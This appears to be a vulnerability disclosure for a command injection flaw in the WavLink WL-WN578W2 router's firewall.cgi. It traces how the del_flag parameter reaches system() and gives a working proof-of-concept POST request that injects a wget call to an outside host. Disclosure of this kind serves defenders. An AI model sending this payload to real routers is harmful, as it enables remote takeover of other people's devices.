

# WL-WN578W2 Vulnerability

Vendor:WavLink

Product:WL-WN578W2

Vulnerability: Command Injection

Type:Remote Command Execution


## Descriptions

We found an Command Injection vulnerability  in `firewall.cgi` , allows remote attackers to execute arbitrary OS commands from a crafted request:

In  ftext function,the router compare the `firewall` parameter.

When the value of `firewall` is `singlePortForwardDelete`, the function sub_401770 will be called.

<div  align="center"></div>

the value of the `del_flag`  is inserted into `v6`  using `sprintf`,and the value of `v6` will be handled by the function sub_402AC0.

<div  align="center"></div>

Finally,the command will be executed by  system() in sub_402AC0

<div  align="center"></div>


## Proof of Concept (PoC)

We set `del_flag` as **0;wget 192.168.6.1:6666/testpoc** , and the router will excute it,such as:

```http
POST /cgi-bin/firewall.cgi HTTP/1.1
Host: 192.168.6.2
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.6.2/man_security.shtml
Accept-Encoding: gzip, deflate, br
Cookie: session=452835494
Connection: keep-alive
Content-Length: 73

firewall=singlePortForwardDelete&del_flag=0;wget 192.168.6.1:6666/testpoc
```

<div  align="center"></div>

